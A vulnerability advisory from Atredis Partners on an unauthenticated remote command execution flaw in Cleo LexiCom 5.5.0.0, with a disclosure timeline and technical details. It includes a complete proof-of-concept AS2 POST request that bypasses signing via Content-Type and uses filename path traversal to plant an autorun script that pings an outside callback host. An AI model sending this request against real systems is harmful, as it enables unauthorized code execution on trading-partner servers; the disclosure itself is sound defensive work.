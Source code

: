 # Cleo - LexiCom Remote Command Execution

## Vendors

* Cleo

## Affected Products

Cleo LexiCom/5.5.0.0

## Summary

Cleo LexiCom is susceptible to an unrestricted file upload vulnerability when processing remote input from an unauthenticated user, leading to remote command execution.

## Remediation/Mitigation

It is unknown if later versions of LexiCom address this issue. It may be possible to mitigate this, in part, by requiring in-bound messages to be signed and encrypted. This must be configured on a partner by partner basis. However, requiring encryption and signing would not stop a trading partner from exploiting this vulnerability to gain code execution.

## Credit

This issue was found by Stephen Breen of Atredis Partners.

## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-33576
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-33577
- https://www.cleo.com/cleo-lexicom

## Report Timeline

- 2021-02-24: Atredis Partners reached out to the vendors support team for a security contact.
- 2021-02-25: Vendor replied that the support team also handles security issues.
- 2021-03-01: Atredis Partners uploaded the vulnerability report to the vendors secure file transfer site.
- 2021-03-02: Vendor support team replied with release notes for v5.6.2 of LexiCom, but release notes do not list if issue is fixed.
- 2021-03-02: Atredis Partners informed the vendor that this is a vulnerability disclosure and that Atredis is not one of their customers.
- 2021-03-23: Atredis requested an update, no response from vendor.
- 2021-04-13: Atredis requested an update, no response from vendor.
- 2021-04-14: Atredis reported the vulnerability to CERT/CC.
- 2021-06-01: Atredis published this advisory.


## Technical Details
LexiCom is an Electronic Data Interchange (EDI) product from the vendor Cleo. It facilitates communication between trading partners over industry standard protocols such as Applicability Statement 2 (AS2). Two flaws in Cleo LexiCom's implmentation led to the ability to obtain remote command execution as an unauthenticated user:

The first is that the requirement for the sender of an AS2 message to identify themselves via encryption and signing of the message can be bypassed by changing the Content-Type of the message to `text/plain`.

The second flaw is that within the AS2 message the sender can specify a filename. This filename can include path-traversal characters allowing the file to be written to an arbitrary location on disk.

These flaws can be exploited to gain remote command execution on the system by taking advantage of a feature of the application. The installation directory for the application contains a directory called `autorun` at `C:\LexiCom\autorun`. LexiCom will parse files placed in this directory and attempt to execute them as scripts in a special format. The following `POST` request was used to write a file to the `autorun` directory which LexiCom would then execute.

```http
POST / HTTP/1.1
Micalg:sha1
Date:Sun, 26 Jul 2020 17:18:04 GMT
Accept-Encoding:deflate, gzip, x-gzip, compress, x-compress
Disposition-Notification-Options:signed-receipt-protocol=optional, pkcs7-signature; signed-receipt-micalg=optional, sha1
Disposition-Notification-To:<redacted>
Ediint-Features:CEM, multiple-attachments, AS2-Reliability
Subject:EDIINTDATA
AS2-Subject:test
Te:trailers, deflate, gzip, compress
Content-Type:text/plain
Recipient-Address:<redacted>
Message-Id:<redacted>
As2-From:<redacted>
User-Agent:RPT-HTTPClient/0.3-3I (Linux)
As2-Version:1.2
Content-Disposition:attachment; filename=\..\..\autorun\test.txt
Content-Length: 78
Host:<redacted>
As2-To:<redacted>
Mime-Version:1.0
Content-Length: 78

-r * -c "SYSTEM ping <redacted>.burpcollaborator.net"
```

None of the information in the above request would be considered secret or hard to obtain. The `Message-Id` field can be anything so long as it is unique to the request. The `As2-From` field must be set to the identifier (ID) of a valid trading partner configured with LexiCom. These IDs are not secret and are publicly available. 
